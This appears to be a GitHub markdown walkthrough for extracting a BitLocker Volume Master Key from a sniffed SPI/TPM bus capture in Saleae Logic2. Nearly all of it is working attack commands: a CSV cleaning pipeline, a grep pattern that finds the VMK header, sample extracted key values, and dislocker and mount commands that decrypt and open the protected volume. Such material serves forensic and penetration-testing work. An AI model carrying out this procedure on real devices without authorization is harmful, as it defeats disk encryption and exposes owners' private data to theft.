



# Extracting VMK from Logic2 Capture

## Step 1: Launch Logic2 and Open Capture

Download and open the [Logic2](https://www.saleae.com/downloads/) application.

Launch Logic2 and load your capture file, for example:

```bash
./Logic-2.4.13-linux-x64.AppImage
```

Open the capture file:

```bash
final_shortened.sal
```




---

## Step 2: Export Capture Data to Table

1. Select your SPI analyzer from the Logic2 interface.
2. Click the export icon.
3. Choose:
   - **Columns**: Visible
   - **Data**: Search Matching (or All, depending on needs)
   - **Export Format**: CSV
4. Click **Export** and save the CSV file (e.g., `/tmp/test.csv`).



---

## Step 3: Extract MISO Stream Data from CSV

Extract the 6th column (MISO) from the CSV and clean the stream:

```bash
cat /tmp/test.csv | cut -d "," -f6 | sed 's/0x//g' | tr -d '\n' | sed 's/00000001//g' > /tmp/clean
```

> ⚠️ If the data is on MOSI, change `-f6` to `-f5`.

---

## Step 4: Search for the VMK Header Pattern

Use `grep` to locate the VMK header in the binary stream:

```bash
grep -oP '2C000[0-6]000[1-9]000[0-1]000[0-5]200000\w{64}' /tmp/clean --color
```

Example matches from different CSV files:

```bash
2C00000001000000032000000FB6776AFF991F6EF79B1189919FD7A451240AA7D8ECF4F45520B63200772A72
2C00000001000000032000000FB6776AFF991F6EF79B1189919FD7A451240AA7D8ECF4F45520B6772A72A920
```

---

## Step 5: Extract the VMK

Extract and save the VMK (last 64 hex chars after the header):

```bash
echo 0FB6776AFF991F6EF79B1189919FD7A451240AA7D8ECF4F45520B6772A72A920 | xxd -r -p > /tmp/key
```

---

## Step 6: Prepare Mount Points

Create the mount directories:

```bash
sudo mkdir /media/bl
sudo mkdir /media/blm
```

---


## Step 7: Unlock BitLocker Volume Using Dislocker

Use the VMK to unlock the BitLocker-protected partition:

```bash
sudo dislocker -v -V /dev/sdd3 --vmk /tmp/key -- /media/bl
```

---

## Step 8: Mount the Decrypted Volume

Mount the unlocked volume to access its contents:

```bash
sudo mount /media/bl/dislocker-file /media/blm
```

---
